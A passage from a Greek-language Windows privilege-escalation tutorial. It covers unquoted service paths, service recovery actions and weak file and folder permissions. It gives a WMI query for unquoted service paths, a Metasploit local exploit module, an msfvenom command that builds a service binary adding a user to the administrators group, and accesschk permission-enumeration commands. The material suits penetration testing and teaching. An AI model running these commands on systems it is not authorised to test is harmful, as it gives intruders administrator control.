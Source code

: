 ```bash
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
**Μπορείτε να ανιχνεύσετε και να εκμεταλλευτείτε** αυτήν την ευπάθεια με το metasploit: `exploit/windows/local/trusted\_service\_path`
Μπορείτε να δημιουργήσετε χειροκίνητα ένα δυαδικό αρχείο υπηρεσίας με το metasploit:
```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```
### Ενέργειες Ανάκτησης

Τα Windows επιτρέπουν στους χρήστες να καθορίσουν ποιες ενέργειες θα πραγματοποιηθούν σε περίπτωση αποτυχίας ενός υπηρεσίας. Αυτή η δυνατότητα μπορεί να ρυθμιστεί ώστε να δείχνει σε ένα δυαδικό αρχείο. Εάν αυτό το δυαδικό αρχείο είναι αντικαταστάσιμο, μπορεί να υπάρξει προνόμια προώθησης. Περισσότερες λεπτομέρειες μπορούν να βρεθούν στην [επίσημη τεκμηρίωση](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753662\(v=ws.11\)?redirectedfrom=MSDN).

## Εφαρμογές

### Εγκατεστημένες Εφαρμογές

Ελέγξτε τα **δικαιώματα των δυαδικών αρχείων** (ίσως μπορείτε να αντικαταστήσετε ένα από αυτά και να αναβαθμίσετε τα προνόμια) και των **φακέλων** ([Απάτη με DLL](dll-hijacking.md)).
```bash
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```
### Δικαιώματα Εγγραφής

Ελέγξτε αν μπορείτε να τροποποιήσετε ένα αρχείο ρύθμισης για να διαβάσετε ένα ειδικό αρχείο ή αν μπορείτε να τροποποιήσετε ένα δυαδικό αρχείο που θα εκτελεστεί από ένα λογαριασμό Διαχειριστή (schedtasks).

Ένας τρόπος για να βρείτε αδύναμα δικαιώματα φακέλου/αρχείου στο σύστημα είναι να κάνετε:
```bash
accesschk.exe /accepteula
# Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\
# Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
accesschk.exe -uwdqs "Everyone" c:\*.*
```

